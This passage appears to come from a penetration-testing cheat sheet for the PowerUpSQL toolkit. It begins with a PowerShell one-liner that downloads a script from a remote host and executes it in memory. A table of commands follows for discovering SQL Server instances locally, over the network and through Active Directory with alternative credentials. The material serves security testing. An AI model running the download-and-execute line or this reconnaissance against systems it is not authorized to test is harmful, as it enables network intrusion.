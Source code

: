Or load into memory

```text
IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.0.1/PowerUpSQL.ps1")
```

#### SQL Server Discovery Cheats 

<table>
  <thead>
    <tr>
      <th style="text-align:left">Description</th>
      <th style="text-align:left">Command</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">Discover Local SQL Server Instances</td>
      <td style="text-align:left">Get-SQLInstanceLocal -Verbose</td>
    </tr>
    <tr>
      <td style="text-align:left">Discover Remote SQL Server Instances</td>
      <td style="text-align:left">
        <p>UDP Broadcast Ping</p>
        <p>Get-SQLInstanceBroadcast -Verbose</p>
        <p>UDP Port Scan</p>
        <p>Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1</p>
        <p>Get the instance list from a file</p>
        <p>Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded
          -Verbose</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Discover Active Directory Domain SQL Server Instances</td>
      <td style="text-align:left">Get-SQLInstanceDomain -Verbose</td>
    </tr>
    <tr>
      <td style="text-align:left">Discover Active Directory Domain SQL Server Instances using alternative
        domain credentials</td>
      <td style="text-align:left">
        <p>runas /noprofile /netonly /user:domain\user PowerShell.exe</p>
        <p>import-module PowerUpSQL.psd1</p>
        <p>Get-SQLInstanceDomain -Verbose -DomainController 192.168.1.1 -Username
          domain\user -password P@ssword123</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">List SQL Servers using a specific domain account</td>
      <td style="text-align:left">Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc</td>
    </tr>
    <tr>
      <td style="text-align:left">List shared domain user SQL Server service accounts</td>
      <td style="text-align:left">Get-SQLInstanceDomain -Verbose | Group-Object DomainAccount | Sort-Object
        count -Descending | select Count,Name | Where-Object {($_.name -notlike
        &quot;*$&quot;) -and ($_.count -gt 1) }</td>
    </tr>
  </tbody>
</table>

